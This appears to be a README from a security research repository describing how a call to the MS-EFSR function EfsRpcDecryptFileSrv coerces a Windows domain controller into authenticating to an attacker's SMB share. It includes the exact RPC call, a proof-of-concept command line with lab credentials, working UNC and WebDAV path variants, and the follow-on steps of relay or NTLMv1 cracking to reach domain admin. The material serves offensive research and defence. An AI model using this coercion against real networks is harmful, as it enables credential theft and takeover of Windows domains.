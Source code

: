 # MS-EFSR - Remote call to EfsRpcDecryptFileSrv (opnum 5)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipes**: `\pipe\lsarpc`, `\pipe\efsrpc`

 - **Function name**: [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDecryptFileSrv("\\\\192.168.2.51\\share\\file.txt\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcDecryptFileSrv(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] unsigned long OpenFlag
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.

 - **OpenFlag**: This parameter is unused and MUST be ignored by the server. It MUST be set to zero by the client.

---

## Working path types

 + :heavy_check_mark: UNC ressource: `\\192.168.2.51\share\file.txt` authenticates to target.
 + :x: UNC ressource: `\??\UNC\192.168.2.51\share\file.txt` does not work, returns a `rpc_s_access_denied` error.
 + :heavy_check_mark: WebDAV ressource: `\\MACHINENAME@80/raj\share\file.txt` authenticates to target.

---

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcDecryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78